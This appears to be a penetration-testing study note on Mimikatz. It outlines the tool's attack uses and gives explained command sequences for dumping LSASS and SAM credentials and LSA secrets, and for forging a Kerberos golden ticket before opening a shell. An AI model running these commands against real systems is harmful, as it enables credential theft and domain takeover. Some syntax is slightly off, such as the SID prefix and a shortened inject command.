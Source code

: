 [Mimikatz](https://github.com/gentilkiwi/mimikatz) is a powerful and well-known post-exploitation tool primarily used for extracting plaintext passwords and manipulating authentication credentials in Windows environments. It was created by Benjamin Delpy, and it gained popularity as a security tool for demonstrating various security weaknesses and for conducting penetration testing. However, it has also been abused by malicious actors for cyberattacks.

![[Mimikatz Overview.png]]

#### Usage
1. **Pass-the-Hash (PtH) and Pass-the-Ticket (PtT) Attacks:** Mimikatz can extract and use NTLM hashes or Kerberos tickets to gain unauthorized access to other systems without needing the actual user password.
2. **Extracting Plaintext Passwords:** Mimikatz can extract plaintext passwords from LSASS (Local Security Authority Subsystem Service) memory, which stores credentials in Windows.
3. **Golden Ticket and Silver Ticket Attacks:** Mimikatz can forge Kerberos tickets, allowing attackers to impersonate any user within the domain.
4. **Kerberoasting:** Mimikatz can perform Kerberoasting attacks to extract service account credentials from Kerberos tickets.
5. **DPAPI (Data Protection API) Operations:** Mimikatz can decrypt data protected using DPAPI, such as browser passwords and other sensitive information.
6. **Pass-the-Cache (PtC) Attack:** Mimikatz can extract cached logon credentials from Windows systems.

#### Credentials Dumping
```bash
C:\User\Downloads> mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # lsadump::sam
mimikatz # lsadump::lsa /patch
```
**Explanation**
1. `privilege::debug`: This command allows Mimikatz to enable debug privileges, which are required for certain operations like extracting plaintext passwords from memory.
2. `sekurlsa::logonpasswords`: This command instructs Mimikatz to extract plaintext passwords from the Local Security Authority Subsystem Service (LSASS) memory. LSASS is a critical system process that stores authentication credentials in Windows. By executing this command, Mimikatz tries to obtain credentials of logged-in users.
3. `lsadump::sam`: This command tells Mimikatz to dump the Security Account Manager (SAM) database, which contains user account information, including password hashes.
4. `lsadump::lsa /patch`: This command attempts to extract LSA Secrets, which are sensitive data stored in the Local Security Authority (LSA) subsystem, such as auto-logon passwords. The "/patch" option may be used to enable certain functionality if it is required.

#### Golden Ticket Attacks
```bash
C:\User\Downloads> mimikatz.exe

mimikatz # privilege::debug
mimikatz # lsa /inject /name:krbtgt
mimikatz # kerberos::golden /User:FakeUser /domain:marvel.local /sid:$-1-5-21-3263... /krbtgt:<NTLM Hash> /id:500 /ptt
mimikatz # misc::cmd
```
1. `lsa /inject /name:krbtgt`: This command instructs Mimikatz to inject the specified "krbtgt" ticket into the Local Security Authority (LSA) process. The "krbtgt" account is a privileged account in Active Directory, responsible for processing ticket-granting tickets (TGTs) during Kerberos authentication.
2. `kerberos::golden /User:FakeUser /domain:marvel.local /sid:$-1-5-21-3263... /krbtgt:<NTLM Hash> /id:500 /ptt`: This command is used to create a "Golden Ticket," which is an unauthorized access ticket that grants full administrative access to a domain controller and other systems within the domain. The command specifies various parameters for creating the ticket, including the target user ("FakeUser"), the domain name ("marvel.local"), the domain Security Identifier (SID), the NTLM hash of the "krbtgt" account, the user ID (500), and the "/ptt" flag to inject the ticket into memory.
3. `misc::cmd`: This command is used to execute arbitrary commands on the compromised system. It allows an attacker to run commands on the target system with elevated privileges obtained through the "Golden Ticket."